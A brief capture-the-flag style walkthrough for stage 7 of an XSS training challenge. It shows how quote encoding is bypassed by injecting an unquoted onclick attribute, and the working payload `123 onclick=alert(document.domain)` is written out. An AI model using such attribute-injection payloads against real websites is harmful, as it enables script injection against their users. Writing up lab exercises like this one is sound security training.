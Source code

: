 # **XSS Challenges Stage 7**

Insert payload of stage 6 again, then you will find that it left one `"` symbol.

```
<input type="text" name="p1" size="50" value=&quot; onclick=&quot;alert(document.domain)>
```

It seems that it will html encode the `"` symbol whatever it gets.

Take off the `"` in our offset that you'll find `onclick` will append to `value=`, single space will be ignored, you need some value, the plus space followed with payload without `"`.

`123 onclick=alert(document.domain)`

![](https://i.imgur.com/cYDbIjP.png)

